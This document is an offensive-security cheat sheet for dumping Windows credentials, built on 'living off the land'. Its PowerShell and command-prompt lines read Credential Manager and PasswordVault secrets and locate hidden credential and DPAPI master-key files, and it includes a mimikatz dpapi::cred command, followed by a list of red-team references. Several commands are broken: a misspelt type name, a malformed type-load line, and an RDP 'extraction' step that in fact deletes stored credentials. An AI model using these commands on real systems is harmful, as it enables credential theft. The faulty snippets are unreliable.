 # Living off the Land

## 01 - Types of credentials to dump

Various credentials will be harvested and they are:
- Web browsers
- Emails
- Video Conferences
- Wi-Fi credentials
- Certificates
- RDP passwords
- etc

## 01 - View Credentials

### 1.1 - PowerShell

```powershell
PS C:\> $credman = New-Object -TypeName PSCredentialManager.Credential; $credman | Where-Object { $_.Type -eq
'Generic' } | Select-Object -Property UserName, Password
```

## 02 - List Credential Files

### 2.1 - Command Prompt

TODO: Fill this info

```
C:\> dir /a:h C:\Users\%username%\AppData\Local\Microsoft\Credentials

C:\> dir /a:h C:\Users\%username%\AppData\Roaming\Microsoft\Credentials

PS C:\> Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\

PS C:\> Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

```
C:\> dir C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SUID>\<GUID>
```

```
mimikatz # dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\ /master-key:
```

### 2.2 - PowerShell

```powershell
[void][Windows.Security.Credentials.PasswordVault.Windows.Security.Credentials.ContentType=WindowsRuntime]
$vault = New-Object Wnidows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | ForEach-Object { $_.RetrievePassword(); $_ }
```

## 03 - Extracting Saved RDP Credentials

### 3.1 - PowerShell

```
PS C:\> cmdkey.exe /list | Select-String 'Target: TERMSRV' | ForEach-Object { cmdkey.exe /delete:($_ -split ' ')[-1] }
```

---
## References

### LOFLCAB

- [LOFLCAB: Get-ChildItem](https://lofl-project.github.io/loflcab/Cmdlets/Get-ChildItem/)

### Hacktricks

- [HackTricks: DPAPI - Extracting Passwords](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords)

### InternalAllTheThings

- [InternalAllTheThings: Windows - DPAPI](https://swisskyrepo.github.io/InternalAllTheThings/redteam/evasion/windows-dpapi)

### Hacking Articles

- [Hacking Articles: Windows Credential Manager](https://www.hackingarticles.in/credential-dumping-windows-credential-manager/)

### The Hacker Recipes

- [The Hacker Recipes: DPAPI Protected Secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)

- [The Hacker Recipes: Cred](https://tools.thehacker.recipes/mimikatz/modules/vault/cred)

- [The Hacker Recipes: Vault](https://tools.thehacker.recipes/mimikatz/modules/vault/list)

### harmj0y

- [harmj0y: Operational Guidance for Offensive User DPAPI Abuse](https://web.archive.org/web/20211206115041/https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)

### Pentestlab

- [Pentestlab Blog: Dumping RDP Credentials](https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/)

### Passcape

- [Passcape Software: DPAPI Secrets](https://www.passcape.com/index.php?section=docsys&cmd=details&id=28)

### Bartosz Inglot

- [Bartosz Inglot: The Blackbox of DPAPI](https://github.com/msuiche/OPCDE/blob/master/2017/The%20Blackbox%20of%20DPAPI%20the%20gift%20that%20keeps%20on%20giving%20-%20Bartosz%20Inglot/The%20Blackbox%20of%20DPAPI%20-%20Bart%20Inglot.pdf)

### Jean Christophe Delaunay

- [Jean Christophe Delaunay: DPAPI exploitation during pentest and password cracking](https://www.synacktiv.com/ressources/univershell_2017_dpapi.pdf)

### Francesco Picasso:

- [Francesco Picasso: Happy DPAPI!](https://blog.digital-forensics.it/2015/01/happy-dpapi.html)

- [Francesco Picasso: ReVaulting! Decryption and opportunities](https://www.slideshare.net/slideshow/revaulting-decryption-and-opportunities/56834244)

### Itai Grady

- [Itai Grady: Protecting browsers’ secrets in a domain environment](https://www.slideshare.net/slideshow/protecting-browsers-secrets-in-adomainenvironment/63364753)

### Jean Michel Picod and Elie Bursztein

- [Jean Michel Picod and Elie Bursztein: Decrypting DPAPI data](https://elie.net/static/files/reversing-dpapi-and-stealing-windows-secrets-offline/reversing-dpapi-and-stealing-windows-secrets-offline-slides.pdf)

### Rasta Mouse

- [Rasta Mouse: Jumping Network Segregation with RDP](https://web.archive.org/web/20200525123919/https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/)